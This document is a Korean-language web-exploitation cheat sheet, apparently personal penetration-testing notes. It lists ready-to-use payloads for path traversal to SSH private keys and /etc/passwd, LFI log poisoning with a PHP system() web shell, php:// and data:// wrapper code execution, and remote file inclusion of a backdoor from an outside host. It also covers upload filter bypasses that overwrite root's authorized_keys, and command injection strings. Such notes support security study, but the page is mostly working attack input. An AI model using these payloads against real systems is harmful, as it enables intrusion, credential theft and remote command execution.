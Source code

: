# Bypass WAF
`X-Forwarded-For: 127.0.0.1`

---
# phpinfo.php
- 파일에서 경로 및 사용 가능 코드 확인
- 확장 모듈 확인
---
# 🗂 Directory Traversal (Path Traversal)

`https://example.com/cms/login.php?language=en.html`  
→ `language` 파라미터로 특정 파일을 불러오는 정상 요청

`https://example.com/cms/login.php?language=../../../../home/kali/.ssh/id_rsa`  
→ 리눅스 사용자 SSH 개인키 접근

`https://example.com/cms/login.php?language=..\..\..\..\windows\win.ini`  
→ Windows 시스템 설정 파일(win.ini) 접근

---

## 🔑 인코딩이 필요할 때

`../../../../etc/passwd`  
→ 리눅스 사용자 계정 정보

`%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`  
→ `.`을 `%2e`로 인코딩하여 필터 우회

`%252e%252e/%252e%252e/etc/passwd`  
→ 이중 인코딩(Double Encoding)으로 필터 우회

---

# 📄 Local File Inclusion (LFI) - Log Poisoning
```bash
curl http://example.com/index.php?page=../../../../../../../../../var/www/html/index.php
```
- 내부 파일을 읽을 수 있을 때 확인해보기.(패스워드가 노출될 수도 있음.)

```bash
curl https://example.com/index.php?page=../../../../../../../../../var/log/apache2/access.log
```
→ Apache `access.log`를 LFI로 불러오기

```text
User-Agent: <p><?php system($_REQUEST['cmd']); ?></p>
```
→ User-Agent에 PHP 코드 삽입(Log Poisoning)

```bash
../var/log/apache2/access.log&cmd=whoami
```
→ 삽입된 PHP 코드로 명령 실행

---

# 🐘 PHP Wrappers

```bash
curl https://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
→ `php://filter`로 파일을 Base64로 인코딩하여 소스코드 노출

```bash
curl "https://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
→ `data://` 래퍼로 Base64 인코딩된 PHP 코드 전달 후 `ls` 실행
---
# PHP ZIP Wrapper LFI
1. Create a PHP Reverse shell

2. Compress PHP file

3. Upload compressed file

4. Use the zip wrapper to extract the payload
```bash
php?page=zip://path/to/file.zip%23shell
```
---

# 🌐 Remote File Inclusion (RFI)

```bash
curl "https://example.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
→ 외부 서버의 악성 PHP 파일 로드 후 명령 실행

---

# 📤 File Upload Vulnerabilities

`example.php`  
→ 정상 PHP 파일

`example.pHP`  
→ 대소문자 변형으로 확장자 필터 우회

`example.php.txt`  
→ 이중 확장자로 필터 우회

`upload '../../../../../../../test.txt'`  
→ 업로드 경로를 벗어나 상위 디렉토리에 파일 저장

`upload '../../../../../root/.ssh/authorized_keys'`  
→ SSH 공개키 덮어써서 백도어 접속 가능

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/243fbacc-c0c6-4c3c-a8b8-1ca3b665a05e" />


---

# 💻 Command Injection

`;ifconfig`  
→ 세미콜론(;)으로 기존 명령 종료 후 `ifconfig` 실행

`%3Bifconfig`  
→ 세미콜론(;)을 URL 인코딩한 버전

```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
→ PowerShell 환경 여부 및 실행 위치 확인

---

## 📦 POST 데이터에 명령어 삽입하여 필터 우회 후 실행

```bash
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```
